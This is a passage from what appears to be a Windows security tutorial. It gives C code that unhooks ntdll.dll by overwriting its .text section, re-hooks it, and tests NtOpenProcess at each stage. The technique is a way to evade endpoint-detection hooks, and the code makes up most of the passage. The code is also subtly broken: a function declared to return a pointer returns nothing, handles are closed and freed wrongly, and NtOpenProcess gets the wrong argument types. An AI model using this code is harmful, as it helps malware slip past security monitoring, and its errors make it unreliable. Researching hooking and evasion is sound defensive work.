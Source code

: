 ```c
    return hookedNtdll;
}

LPVOID rehookNtdll(LPVOID hookedNtdll) {
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi;
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            boolean isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedNtdll, hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }

    CloseHandle(process);
    FreeLibrary(ntdllModule);
}
```

First we declare a function to parse NTDLL and grab the .text section that we store for later. Then we declare a second function to place the hooked NTDLL back in. This is pretty easy to implement with some slight modification of the code from ired.team that we used before.

Then in our main function:

```c
_NtOpenProcess NtOpenProcess = (_NtOpenProcess)GetProcAddress(hDll, "NtOpenProcess");
    POBJECT_ATTRIBUTES pAttributes = NULL;
    CLIENT_ID clientId;
    NtOpenProcess(GetCurrentProcess(), PROCESS_ALL_ACCESS, pAttributes, &clientId);

    LPVOID hookedNtdll = getHookedNtdll();
    unhookNtdll();

    _NtOpenProcess NtOpenProcess2 = (_NtOpenProcess)GetProcAddress(hDll, "NtOpenProcess");
    POBJECT_ATTRIBUTES pAttributes2 = NULL;
    CLIENT_ID clientId2;
    NtOpenProcess2(GetCurrentProcess(), PROCESS_ALL_ACCESS, pAttributes2, &clientId2);

    rehookNtdll(hookedNtdll);

    _NtOpenProcess NtOpenProcess3 = (_NtOpenProcess)GetProcAddress(hDll, "NtOpenProcess");
    POBJECT_ATTRIBUTES pAttributes3 = NULL;
    CLIENT_ID clientId3;
    NtOpenProcess3(GetCurrentProcess(), PROCESS_ALL_ACCESS, pAttributes3, &clientId3);
```

